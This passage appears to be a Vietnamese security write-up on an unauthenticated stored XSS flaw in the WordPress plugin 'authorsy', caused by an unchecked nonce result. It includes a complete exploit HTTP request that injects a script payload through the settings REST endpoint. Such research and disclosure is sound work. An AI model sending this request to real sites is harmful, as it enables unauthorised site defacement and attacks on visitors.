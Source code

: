 Hàm `update_settings` nhận dữ liệu **JSON** từ request, decode thành các cặp **key-value** và cập nhật chúng vào cơ sở dữ liệu. Trước khi thực hiện update, ứng dụng gọi `$this->verify_nonce( $request );` để kiểm tra **nonce**.

```php
public static function verify_nonce($request) {
    $nonce = $request->get_header('X-WP-Nonce');

    if (!wp_verify_nonce($nonce, 'wp_rest')) {
        return new \WP_Error('invalid_nonce', __('Invalid nonce.', 'authorsy'), ['status' => 403]);
    }

    return true;
}
```

Điểm quan trọng:

* Khi **nonce** không hợp lệ, hàm chỉ trả về một đối tượng `WP_Error`, nhưng không dừng chương trình.
* Trong `update_settings`, giá trị trả về của **verify_nonce** không được kiểm tra => code vẫn tiếp tục thực hiện cập nhật.

👉 Như vậy, ta có thể thay đổi giá trị của CSS chứa XSS payload trong database mà không cần đặc quyền gì cả => CSS được thêm vào `<head>` chứa mã độc

---

## Exploit

### Detect XSS

Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ
